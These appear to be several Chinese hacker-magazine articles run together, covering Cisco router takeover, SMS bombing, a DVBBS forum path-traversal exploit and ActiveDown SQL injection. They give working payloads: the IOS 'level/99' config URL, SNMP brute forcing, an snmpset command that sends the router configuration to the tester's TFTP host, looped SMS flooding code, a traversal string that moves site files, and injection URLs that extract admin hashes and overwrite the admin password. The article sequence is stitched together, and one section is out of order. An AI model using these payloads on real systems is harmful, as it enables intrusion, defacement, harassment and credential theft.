| 9/tcp | open | discard |
| 13/tcp | open | daytime |
| 19/tcp | open | chargen |
| 23/tcp | open | telnet |
| 79/tcp | open | finger |
| 2001/tcp | open | dc |
| 4001/tcp | open | unknown |
| 6001/tcp | open | X11:1 |
| 9001/tcp | open | unknown |

Remote operating system guess: Cisco Router/Switch with IOS 11.2

一般来说，使用 Telnet 客户端或者 NetCat 登录设备查看 banner 是最常见的方法。

## 寻找漏洞

漏洞扫描器在发现已知漏洞方面的效果很明显，但经常会漏掉一些很明显的配置错误。以 Nessus 2.0.6 为例，它有一个大概包含 44 个 community 字符串的列表来对 SNMP 守护进程进行暴力破解，这对于例如 public 和 private 这样的常见默认 community 字符串来说已经足够了，但是对于那些专门指定的 community string 来说却不够了。因此对于大多数的渗透测试者来说，漏洞扫描器可以作为一个很好的开始，但是它对于那些实际渗透中需要应付的多变的人为因素来说却远远不够了。

基于市场方面的原因，Cisco 的 IOS 只有相对很少的一些高风险级别的漏洞可以导致对设备的直接控制。事实上，我发现糟糕的系统管理比软件中的漏洞更容易导致路由器被入侵。很多情况下，漏洞扫描器会报告没有发现漏洞，但是在这种情况下渗透测试者仍然可以采取其他途径来对路由器的安全状况进行进一步的评估，例如对所有开放的服务进行暴力破解。

如果可以访问类似 telnet 或者 SSH 这样的登录服务，测试者可以用一个标准的 telnet 客户端连接到相应的端口。一个普通的 Cisco 路由器的显示情况如下：

```text
[root@hackyou root]# telnet router1
Trying router1...
Connected to router1.
Escape character is '^]'.
User Access Verification
Password:
```

“User Access Verification”一行是 Cisco 特有的 telnet banner。当然测试者也不能完全依赖 banner 来进行判断，因为系统管理员会时常修改 banner 来达到迷惑的目的。

SING 是一种可以用来构造自定义 ICMP 包的工具，包括 ICMP 子网掩码请求（ICMP 类型 17）。根据我自己的经验，路由器是唯一响应这种类型 ICMP 包的设备。通过发送这种类型的 ICMP 包（或者其他类型的包），可以帮助测试者确定某个系统是否是一台路由器。

使用 traceroute 来发现目标网络的边缘路由器也是一种很简单的办法。只要能事先确定目标网络可以直接访问 Internet 的系统，测试者就可以对该系统使用 traceroute 来查看到该系统的路径。一般来说，在该系统前的最后一跳就是目标网络的边缘路由器。

当然还有一些其他的方法来确认路由器，但是一般来说使用 Telnet 客户端或者 NetCat 登录设备查看 banner 是最常见的方法。

## 如何利用 Cisco IOS 的漏洞

一个大多数 Cisco 路由器都存在的漏洞（当需要的条件符合时）是“HTTP 配置任意管理级访问权限获得漏洞”。该漏洞可以被大多数的漏洞扫描器发现，并且利用起来也很简单。它通常会导致远程对存在漏洞的路由器的完全控制。渗透测试者只需要用一个 Web 浏览器就可以做到这点。

首先，渗透测试者得运行自己的 Web 浏览器来访问存在漏洞的路由器，如图 1 所示。

这个时候可以点击“取消”按钮，然后在地址栏输入以下 URI：http://10.0.1.252/level/99/exec/show/config，然后就可以看到路由器的启动配置了（图 2）。

现在可以在 Web 浏览器里面看到目标路由器的配置情况。从这里我们可以知道这个路由器是如何配置的，其接口的情况，以及访问控制列表（ACLs）、SNMP 的 community 字符串，以及简单加密后的密码！IOS 有 3 种不同的方式存储密码，而以上的例子——网络管理员采用了 Vigenere，一种简单的可逆加密方法。

因此，我运行了一种由 Boson 开发的免费破解软件 GetPass！，并且立即将密码散列还原成了明文密码（图 3）。

你也可以采用其他的几种解密工具，这些工具大部分是免费的。现在出现了一些网页提供了用于解密的 CGI 脚本，还有一些专门解密的 UNIX 程序，甚至有一些 Palm Pilot 下的解密软件。一旦密码被破解，测试者可以通过 telnet 登录到路由器并获得对路由器的完全控制。

就像开始提到的那样，IOS 在配置文件中以 3 种形式来表示密码。它们分别是：

- 明文
- Vigenere
- MD5

```text
enable password password
enable password 7 104B0718071B17
enable secret 5 $1$yOMG$38ZIcsEmMaIjsCyQM6hya0
```

很明显，最安全的选择就是不可逆的 MD5 加密，它不能被逆向还原。管理员可以通过使用命令“enable secret 0 password”来对密码进行 MD5 加密。

也许大多数人会认为像上面提到的那种漏洞是差不多两年前出现的，现在应该已经没有了，但是结果也许会让你很吃惊。我经常在对目标网络内部中的路由器进行测试的时候发现这些漏洞，并且这也并不意味着在那些可以直接访问 Internet 的边缘路由器上不存在这些漏洞。

## 如何利用配置错误

前面介绍了一个可以导致远程完全管理级控制的 Cisco IOS 漏洞。由于 IOS 的特点以及它的漏洞很少这个事实，我认为测试者在更多的情况下应该考虑采取例如暴力破解这样的常见手段。在这个部分我们将讨论两种暴力破解方法。

### 1. SNMP 暴力破解

用端口扫描器对目标路由器进行扫描有可能会发现 UDP 端口 161（SNMP）是开放的。但是接下来的漏洞扫描却有可能找不到任何漏洞，这时先不要过早认为该路由器就是安全的了。如果路由器的 SNMP community 字符串与字典中的某条是一样的话，那么对于测试者来说接下来的事情也就很简单了。

SNMP 暴力破解是一种安全并且隐秘的攻击边缘路由器的方法，有几种不同的工具可以对 SNMP 进行暴力破解。如果你有 SolarWinds 网络管理工具的话，其中包含的几种工具可以用来访问 Cisco 路由器。但是对于 SNMP 来说，我偏向于使用免费的 SNMP 审计扫描器 ADMsnmp，它是由 ADM 小组开发的。ADMsnmp 是一种基于控制台的应用程序，挂接字典后可以很快地根据字典中的内容进行破解，并且可以让你看到破解的详细情况。在字典方面，我首先一般会浏览目标的网站尽量搜集关于目标的各种信息，然后我会把与目标相关的缩写、姓名、部门名称放到字典里去进行破解，一旦这样破解不成功我便会尝试使用更大的字典。Linux 里面有一个现成的字典文件（/usr/share/dict/words），里面包含了 45427 个词，并且从其他地方也可以获得各种各样的字典文件。一些是其他语言的词典，一些是以罗马神话、星际迷航这些常见题材为主题的，而有一些字典中的题材也许对你来说是完全陌生的。:-)

图 4 是 ADMsnmp 猜测 community 字符串时的截图。注意图中当猜测的 community 字符串相关的级别不同时会有不同的显示。



图 4 ADMsnmp 正在猜测一个 Read/Write Community 字符串

图 4 中的 send setrequest 字符串告诉用户他已经获得了目标的 Read/Write 权限。一般我获得了这种级别的访问权限后所做的第一件事情就是大致查看下 MIB（管理信息库）来对目标有更多的了解。

一旦我知道了目标是一个路由器，并且运行 Cisco 的 IOS，我就让这个路由器将它的配置文件传到我一个运行了 TFTP 的系统上去。具体过程是通过键入以下命令来实现的：

```bash
[root@hackyou root]# snmpwalk -v 1 -c duckling 10.0.1.252 | head
SNMPv2-MIB::sysDescr.0 = STRING: Cisco Internetwork Operating System Software
IOS (tm) 2500 Software (C2500-I-L), Version 12.0(14), RELEASE SOFTWARE (fc1)
Copyright (c) 1986-2000 by cisco Systems, Inc.
Compiled Tue 31-Oct-00 23:59 by linda
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.9.1.30
SNMPv2-MIB::sysUpTime.0 = Timeticks: (103607424) 11 days, 23:47:54.24
SNMPv2-MIB::sysContact.0 = STRING:
SNMPv2-MIB::sysName.0 = STRING: ADMsnmp
SNMPv2-MIB::sysLocation.0 = STRING:
SNMPv2-MIB::sysServices.0 = INTEGER: 6
```

```bash
[root@hackyou root]# snmpset 10.0.1.252 duckling .1.3.6.1.4.1.9.2.1.55.192.168.1.15 s "config"
enterprises.9.2.1.55.192.168.1.15 = "config"
```

然后检查我的 tftp 目录，就可以在其中发现目标路由器的配置文件了。虽然 Windows 下的 SolarWinds 有一个 GUI 的工具也可以做到以上的事情，但是我喜欢在 Linux 下工作，因此我使用 UCD-SNMP 来完成该工作。

SolarWinds 的 MIB 浏览器在只能用 SNMP 访问目标路由器的情况下是一种非常有用的工具。它包含了多种操作系统与设备的厂商提供的标准 MIB，你甚至可以通过设备的 MIB 来启动它的 Telnet 服务。当然，测试者能通过 SNMP 做到的事情还是得取决于设备的厂商的设计，即他们如何使用 SNMP 来操作设备。

Cisco 看上去很倚重 SNMP，因此让网络管理者（以及其他人）可以访问到大量的有用信息，例如设备路由表、接口、IP 地址等等，并且还可以通过使用 Cisco 类属化的 MIB 进行多种其他的配置。

图 5 显示了一个 Cisco 设备上的类属化 MIB。你可以使用 SolarWinds 来浏览 MIB 中的内容，如果需要获取某项的内容或者设置某项你只需要双击该项就可以了。



图 5 用 SolarWinds MIB 浏览器查看一个 Cisco 设备

### 2. 暴力破解登录服务

对于类似 Telnet 和 SSH 这样的登录服务的暴力破解一般来说都比较困难，而且很不隐蔽，但是却经常会有不错的收获。但是在进行类似的破解之前你首先得确定目标路由器有没有采用 Tacacs 或者 Radius 这样的扩展认证方式。虽然 IOS 本身没有在某个数量的登录尝试以后本地锁定用户的功能，但是在使用例如 Tacacs 或者 Radius 这样的第三方认证机制却可以实现用户锁定功能。确定目标是否采用第三方认证机制的最简单方法就是用一个标准的 Telnet 客户端 Telnet 到路由器上。

```text
[root@hackyou root]# telnet router2
Trying router2...
Connected to router2.
```

```text
Escape character is '^]'.

User Access Verification

Username:
```

这个时候如果路由器问你要用户名，那么基本上你可以确定他使用了某种类型的扩展认证方式。上面那个例子中使用的是 Tacacs，也就意味着接下来的暴力破解工作会变得更困难了，因为测试者需要猜测两个东西，用户名和密码，而不是像通常情况下那样只需要猜测密码。如果目标开放了 finger 的话，那么就可以通过该服务搜集用户名信息，但是如果有用户锁定机制的话就有可能让大部分的测试者就此打住。当然，如果你得到了许可可以以任何方式进行测试的话，你还是可以进行某种类型的暴力破解直到达到锁定所需要的阈值。

如果确定目标没有使用扩展认证机制的话，呵呵，那么测试者就可以像破解 SNMP 那样对 Telnet 守护进程进行暴力破解了。Brutus 是一种 Windows 下的破解工具，它可以对多种协议进行破解并且可以进行自定义来对新的协议进行破解。THC 的 hydra 也是一种很优秀的工具，它是在 UNIX 下工作的，并可以针对多种服务进行破解。当然，测试者也可以使用 Perl 或者其他自己熟悉的语言来编写破解工具。

上面我们讨论了获得 Cisco 路由器访问权限的几种不同方法。这些方法并不是总是有效的，但是在发现常见的漏洞与一般的配置错误方面有很明显的优点，希望网络的核心——router 能非常地强壮！

脚本小子：有些人很无聊，总是喜欢用网络发短消息攻击别人的手机，致使别人的手机无故受害。对于这些人的攻击手法，小编觉得并不是很高明，但危害甚大。所以，本期特约了和手机相关的攻击和防范文章，分别刊登在攻防两册上，希望大家都能了解到这种攻击方法的内幕！

**适合对象：** 新时代的移动一族

**前置知识：** SMS 网关发送短消息，手机控件操控手机的原理

## 手机短消息攻击内幕

文／图 nill

现在的手机很火，而越高档的手机越能和网络靠近。不过，网络不但病毒多，害人的短消息炸弹程序也很多。下面我就来为大家剖析一下手机攻击的原理和内幕，希望在手机攻击上面带给大家更清晰的思路。

不是要花很多的钱吗？其实不然，在网上只要随便搜索一下“短消息发送”你就可以得到很多短消息发送的程序和资料！恐怖啊！

### 手机攻击的根源

- 1. 通过手机群发短消息，而控制手机群发短消息的方式我们又可以分为：
  - 直接操纵：通过对 COM 口直接编写程序，通过标准的 SMS 协议格式发送短消息。
  - 间接操纵：通过用控件或者 COM 接口和手机进行通讯发送短消息。
- 2. 通过 GSM Modem 来发送短消息：同样利用上面所说的直接和间接两种方式。

总的来说，它们之间的关系是间接操纵，是建立在直接操纵的基础上的。第二种方式需要连接手机线。

### 手机软件攻击实例剖析

### 1. 手机短消息攻击程序

此类程序能迅速地让手机用户（能接受短信息）的 SIM 卡或者 STK 卡塞满没用的短信息（图 1），这种程序攻击不需要连接本地手机数据线。很显然程序是利用了网络某种接口实现的手机攻击，对程序查壳，发送是一个经过 Aspack 打包的程序，立即对它脱壳。脱壳后直接用记事本查看发现其为 Delphi 软件编写的，紧接着用 W32Dasm 对其进行反编译，查看“串参考”（图 2）。



图 1

大家看到了吗？这个程序原来是利用 HTTP 协议直接向 211.100.7.*** 这个站点网页发送数据。而这个网页就是网站上大家常见的什么手机注册窗口。仔细想想网上那么多的手机注册页面，要避免这种攻击实在很难。然后给这个站点的管理员发了一封电子邮件过去，附件正是我们这篇文章的内容。

### 手机攻击的演变

手机攻击通过根源的演变，变成很多种形式的攻击手段。有的是利用网页形式，有的是利用网关形式，有的是利用程序形式，甚至演变为远程网关和远程手机发送方式。有的朋友问：如果采用手机直接发送，那……



### 2. 脚本攻击手机

通过脚本来攻击手机，使用者可以灵活地更改发送的参数值。只要打开短消息发送脚本，自然就暴露出来了对方的短消息发送接口。这点和 1 的情况是相似的。需要注意的是，攻击者常常在脚本文件使用 XMLHTTP 对象来调用 HTTP 协议发送短消息内容。典型的例子就是 iSMS.vbs 这个短消息攻击程序（此脚本已经收录在光盘杂志相关栏目中）。

### 3. 网页文件发送攻击代码

这一种情况就是我们介绍的根源 1 的情况。下面的代码是我们在一段国外的 ASP 文件里得到的代码（图 3）。

```asp
Application_OnStart    Runs once when the first page of your application is run for the first time by any user
Application_OnEnd      Runs once when the web server shuts down

Sub Application_OnStart
Application("connect_str")="Provider=SQLOLEDB;User ID=sms;Password=******;Data Source=******;Initial Catalog=sms_new;"
Application("connect_str")="Provider=SQLOLEDB;User ID=******;Password=******;Data Source=******"
End Sub
```

ASP 程序利用此接口来直接发送短消息，很显然这个接口相当于一个短信网关，只要往里面写东西就可以发送短消息了。真的很可怕的。希望网站管理员尽量把自己的网关接口加密或是对外不可见，否则后果不堪设想。

### 4. 直接串口发送短消息攻击

通过直接往包月卡手机机的串口发送代码就可以实现短消息的发送，其间需要数据线的连接。

```vb
' 使用COM串口
MSComm1.CommPort = 1    ' Com Port 1
' 告知串口当缓冲区满的时候通知程序
MSComm1.InputLen = 0
' 打开串口
MSComm1.PortOpen = True
' 发送“AT”指令到手机
MSComm1.Output = "AT" & Chr$(13) & Chr$(10)
' 手机开始发送短消息
MSComm1.Output = "AT+CMGF=1" & Chr$(13) & Chr$(10)
' AT OK  AT+CMGF=1 OK
AT+CMGS="+15127752607",129
This is a test. WOW!!
+CMGS: 49 OK
```

这个过程如果重复几十次，你的手机就被塞爆了。当然，发送短消息是有间隔的。我想在程序中设置一个间隔和几百次循环是可以的。这也是手机发送的原始的方式，但不是最原始的。

> **总结**
>
> 对于手机短消息攻击，我们真的是防不胜防，更多的是需要相关部门的配合才能完成的艰巨任务。面对网上如此多的攻击程序，真的让人眼花缭乱，但万变不离其宗。希望本文能让大家在手机攻击上理清一个思绪。更多的内容请大家一起去咱们的论坛：http://www.hacker.com.cn/newbbs 来交流讨论。

## 动网漏洞之“乾坤大挪移”

文／图 是要饭的！、黑夜、卖身葬情人！

漏洞来源：DVBBS V6.0、V6.1 For 任何版本。

发现漏洞日期：2003-1-10

测试目标：内部局域网 Win2k + DVBBS For ACCESS V6.1

### 开场白

首先，这不是一篇小说，这是一篇技术性的文章，一个关于怎么发现脚本漏洞、利用漏洞，以及体现它最大利用价值的文章，当然，最后我们也给出了安全补丁。这个漏洞，比 AK47 厉害，它能杀人于无形中，网管根本找不到任何日志。其最终结果是，我们可以摧毁他的主页，让论坛关门（甚至有可能下载数据库）。这就是我今天要为大家介绍的动网漏洞“乾坤大挪移”！

乾坤大挪移大法的秘诀和一般的脚本秘诀不一样，它深藏在动网的两个脚本文件当中，这里我只介绍其中一个，另一个文件大家看了这篇文章自然就明白了。

### 寻找乾坤大挪移大法

打开动网论坛脚本文件：MYMODIFY.ASP，让我们来查找如下代码：

```vb
sub update()
...
' 对上传头像进行过滤与改名
If Cint(Dvbbs.Forum_Setting(7))=1 Then
    On Error Resume Next
    dim objFSO,upfilename,newfilename
    dim upface,memberid
```

```vb
set rs=conn.execute("select userid,face from [user] where userid='"&Dvbbs.userid)
memberid=rs(0)
upface=trim(rs(1))
newfilename=""
upfilename=split(upface,"/")
if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
    if instr(upfilename(1),"_")=0 then
        newfilename="uploadFace/"&memberid&"_"&upfilename(1)
        Set objFSO = Server.CreateObject("Scripting.FileSystemObject")
        if objFSO.fileExists(Server.MapPath(upface)) then
            objFSO.movefile ""&Server.MapPath(upface)&"",""&Server.MapPath(newfilename)&""
        end if
        If Err.Number = 0 Then
            Conn.Execute("update [user] set face='"&replace(newfilename,"'","''")&"' where userid='"&Dvbbs.userid)
        end if
        set objFSO=nothing
    end if
end if
rs.close
set rs=nothing
end if
' 对上传头像进行过滤与改名结束
************
end sub
```

我们一步一步来分析这段代码：

```vb
memberid = rs(0)        // 取出用户库中的 ID 号。
upface = trim(rs(1))    // 取出自定义头像的路径。
upfilename = split(upface,"/")  // 用 "/" 符号把 upface 分开。
```

```vb
if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
    ' 如果 upfilename 被分为两部分，且第一部分的值为 uploadFace
if instr(upfilename(1),":")=0 then
    ' 如果 upfilename 的第二部分不包含“盘符”
    newfilename="uploadFace/"&memberid&"_"&upfilename(1)
    ' newfilename = uploadFace/ + 用户ID号 + "_" + upfilename 的第二部分
if objFSO.fileExists(Server.MapPath(upface)) then
    ' 如果检测到 upface 这个路径的文件存在的话
```

```vb
uploadFace 中的 F 是大写的
if instr(upfilename(1),":")=0 then
    条件满足！
newfilename="uploadFace/"&memberid&"_"&upfilename(1)
```

好，最关键的地方来了，这就是移动的核心代码。

假如我们的用户 ID 号为 9，那么 newfilename="uploadFace/9_./..\index.asp" 实际上是等同于 newfilename="uploadFace/index.asp"，而 if objFSO.fileExists(Server.MapPath(upface)) then upface 是等于 uploadFace/./..\index.asp，再直接等同于 index.asp！当然，检测到这个文件后，系统就开始移动文件了。请看下面的代码。

```vb
objFSO.movefile ""&Server.MapPath(upface)&"", ""&Server.MapPath(newfilename)&""
' 把 upface 变量中的文件移动并改名为 newfilename 变量中的文件！
Conn.Execute("update [user] set face='"&replace(newfilename,"'","''")&"' where userid='"&Dvbbs.userid)")
' 更新库里 face 字段的值。
```

```vb
objFSO.movefile ""&Server.MapPath(upface)&"", ""&Server.MapPath(newfilename)&""
再看 uploadFace/./..\index.asp 移动并改名为 uploadFace/9_./..\index.asp
经过我们的转换就是：把 index.asp 移动到 uploadFace/index.asp。
```

OK！代码分析完毕，大家应该看明白了，下面我们一起来实践它！

看明白了吧！好，修炼成功，我们来利用移动大法。

## 修炼乾坤大挪移大法

## 运用乾坤大挪移大法杀人于无形

大家都知道在 DOS 中“.”和“..”的用法吧？在 IE 中一样可以使用，如 http://ip/abc/../a.asp = http://ip/a.asp 的“/”和“\”在 IE 中输入的时候没有什么区别！不信你试试：http://ip/a.asp 和 http://ip\a.asp，都是指向的一个页面！问题就在这里，动网只判断了“/”符号，以“/”符号作为分隔符，误解了佛法，让乾坤大挪移流传下来了！

先在动网的论坛中注册一个账号，然后我们点击菜单，选择“用户控制面板→基本资料修改”，好了，现在我们在“自定义头像地址”后面的输入框中把默认的 userface/image1.gif 改成 uploadFace/./..\index.asp，然后点击更新，输入的东西第一次会保存在数据库，还不会移动，因为修改的值还没有被读出来。我们再次进入基本资料修改，再次输入 uploadFace/./..\index.asp，呵呵，这次你再进主页就打不开了！因为 index.asp 已经被移动到 uploadFace 目录下去了！注意：如果在 uploadFace 目录下有 index.asp，移动会失败，不会自动覆盖！

现在我们来举个例子：如果在库中的 face 字段为：uploadFace/./..\index.asp，那么当我们执行这段代码的时候会发生什么？

首先，upfilename 被“/”分成两部分：

- 第一部分：upfilename(0)=uploadFace
- 第二部分：upfilename(1)=./..\index.asp
- 看着代码我们往下走：

有一点值得提醒的就是：如果我们把 conn.asp 移动到 uploadFace 目录下，那么打开 http://ip/dvbbs/uploadFace/conn.asp 应该报出数据库绝对路径。不过这个 CONN.ASP 本身就存在问题，直接输入 http://ip/conn.asp 有错误提示，所以我 COPY 过去。

```vb
if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
    条件满足！请注意。
```

脚本小子：脚本隐患在当今的网络中太多了，现在很多朋友都在使用 mesky 开发的 ActiveDown System 下载系统，这个系统同样存在不足，今天我就向大家推荐由 19821119 带来的基于 ActiveDown System 下载系统的漏洞分析，相信看完这篇文章以后就该给自己的网站打补丁了……

- 适合对象：网站管理员，程序编写人员
- 前置知识：SQL 注入，了解 ASP 程序

## ActiveDown System XP V2.0 漏洞分析

文／图 19821119

一日，一位朋友让我帮他检测下载网站的安全性，于是就去看了一下。首先发现 URL 全部是 HTM，没有机会注入，然后继续浏览页面，发现站点更新有滚动的文字，说不定这里就有漏洞。马上右击复制该 URL（http://www.test.com/Messages.asp?ID=1），发现有数据库调用，按常规方法加了一个“'”，返回了出错信息！嘿嘿，几乎能确定有漏洞了！出错信息如下：

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'

字符串 '——' 之前有未闭合的引号。
/Messages.asp，行 13
```

由此我们可以判断该程序数据库是 MSSQL 版的，再查看页面下角发现版权是由 www.mesky.net 网站开发。接下来马上用 www.google.com 查找 ActiveDown System XP V2.0 系统，下载一个用来查看数据库结构，随后在官方主页上测试发现也存在这个漏洞，希望程序开发者立即修补！

**脚本小子：** 下载程序并分析数据库结构有个好处，就是不再用猜库名表名，呵呵，这也是研究 SQL 注入攻击的通常办法。

这个漏洞是在 Messages.asp 文件中发现的。大家看看这个文件的关键源代码：

```asp
<%
Set Rs=server.createobject("adodb.recordset")
sql="select * from Messages where ID=" & Trim(Request.QueryString("ID"))
rs.open sql, conn, ...
if rs.eof and rs.bof then
    Response.Write("没有记录")
else
%>
```

看到了吧，源代码中的 ID 变量没有经过过滤，直接调用而造成注入漏洞。大家一起来看看我构造的猜用户 MD5 值密码的过程。

```text
http://61.129.75.**/Messages.asp?ID=1%20and%200<>(select%20count(*)%20from%20Admin_UserInfo%20where%20left((PassWord),1)='6')    // 第一位
http://61.129.75.**/Messages.asp?ID=1%20and%200<>(select%20count(*)%20from%20Admin_UserInfo%20where%20left((PassWord),2)='67')   // 前两位
http://61.129.75.**/Messages.asp?ID=1%20and%200<>(select%20count(*)%20from%20Admin_UserInfo%20where%20left((PassWord),16)='6789a68d518be08d')   // 前16位
```

猜用户语句如下：

```text
http://61.129.75.**/Messages.asp?ID=1%20and%200<>(select%20count(*)%20from%20Admin_UserInfo%20where%20left((UserName),1)='a')    // 确定账户第一位
http://61.129.75.**/Messages.asp?ID=1%20and%200<>(select%20count(*)%20from%20Admin_UserInfo%20where%20left((UserName),5)='admin')   // 确定前五位账户
```

这样就猜出了 MD5 值为 6789a68d518be08d，这个 MD5 还需要暴力破解。我对暴力破解不感兴趣，我们换种思路来搞定！

记录猜出的 MD5 数值，我的思路是这样：先自己用 MD5 加密特定的数值，然后再直接提交一个命令修改管理员的密码为特定的数值，这样我们就获得了管理员密码。以下语句就可以直接改掉 UserID=1 的用户密码，也就不用慢慢猜密码啦！

注入语句如下：

```text
http://www.test.com/Messages.asp?ID=1;update%20Admin_UserInfo%20set%20PassWord='b8a284bcc358a103'%20where%20UserID=1--
```

现在，UserID=1 的用户密码已经改为 MD5 的 b8a284bcc358a103，实际上就是 19821119，下一步就是查找后台登录界面了，默认为 http://www.test.com/user.asp，记住默认用户名为 admin，如果不存在就需要用户猜用户名，方法与猜密码雷同。

